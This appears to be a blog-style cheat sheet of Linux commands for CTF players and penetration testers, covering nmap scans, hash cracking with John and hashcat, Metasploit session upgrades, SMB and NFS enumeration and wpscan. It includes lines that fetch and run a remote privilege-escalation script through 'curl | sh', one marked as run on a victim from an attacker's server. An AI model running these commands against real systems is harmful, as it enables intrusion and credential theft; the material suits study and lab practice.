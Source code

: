 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Bash for Hackers",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: false
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
#for TCP Scan
sudo nmap -sC -sV -p- -T5 -Pn targethost

#for UDP Scan
sudo nmap -sU -sV -p- -T5 -Pn targethost
```

Start Metasploit with database



Cracking hash with John

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

### Python Simple HTTP Server


```bash
python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
```

### Wordpress CMS Vulnerabilty Scanning

```bash
wpscan --url https://brainfuck.htb --disable-tls-checks
```